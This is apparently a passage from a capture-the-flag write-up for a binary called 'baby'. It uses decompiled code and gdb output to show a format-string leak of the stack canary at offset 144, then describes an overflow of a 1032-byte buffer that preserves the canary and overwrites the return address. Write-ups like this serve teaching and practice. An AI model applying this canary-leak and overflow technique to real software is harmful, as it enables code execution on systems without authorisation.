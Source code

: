 ```
__int64 __fastcall dofmt(int a1)
{
  int bytesRead; // [sp+1Ch] [bp-414h]@2
  char input[1032]; // [sp+20h] [bp-410h]@2
  __int64 canary; // [sp+428h] [bp-8h]@1
```

so we can just see the canary by looking at `rbp-0x8`:

```
Thread 2.1 "baby" hit Breakpoint 1, 0x0000555555555547 in dofmt ()
gdb-peda$ x/g $rbp-0x8
0x7fffffffe4f8:	0x5af2827ced9c5d00
```

So here we can see that the stack canary is `0x5af2827ced9c5d00`. We can see that we got this value from the infoleak, towards the end. So we can see what exact position it is at by issuing another format string:

```
Your format > %140$lx.%141$lx.%142$lx.%143$lx.%144$lx.%145$lx.%146$lx.%147$lx.%148$lx.%149$lx
5555555559cf.555555554ff0.455555f09.a32.5af2827ced9c5d00.7fffffffe590.555555555bf0.7fffffffe678.100f0b5ff.1
```

here we can see that the loation of the stack canary is at the offset `144`, so we can leak the stack canary with the format string `%144$lx`.


#### Buffer Overflow

This is the code for the Stack Overflow bug:

```
__int64 __fastcall dostack(int conn)
{
  int bytesRead; // ST1C_4@1
  __int64 result; // rax@1
  __int64 stackCheck; // rcx@1
  char buf; // [sp+20h] [bp-410h]@1
  __int64 stackCanary; // [sp+428h] [bp-8h]@1

  stackCanary = *MK_FP(__FS__, 40LL);
  sendstr((unsigned int)conn, "How much bytes you want to send ? ");
  recv(conn, &buf, 0xAuLL, 0);
  bytesRead = atoi(&buf);
  recvlen(conn, (__int64)&buf, bytesRead);
  sendstr((unsigned int)conn, "Good luck !\n");
  result = 0LL;
  stackCheck = *MK_FP(__FS__, 40LL) ^ stackCanary;
  return result;
```

We can see that the bug is it allows us to decide how much data get's scanned into `buf`. The space `buf` has is `0x408` or `1032` bytes. Immediately following that, we will reach the stack canary, so we will need to write over the stack canary with itself, otherwise it will detect stack smashing, and we won't get code exec. After that we will just have to write over `rbp` with `8` bytes so we will get to `rbp+0x8`, which with this architecture is where the return address is stored. So after we write `1032` bytes, followed by the stack canary, followed by `8` more bytes, we will be able to write over the return address and get code execution.
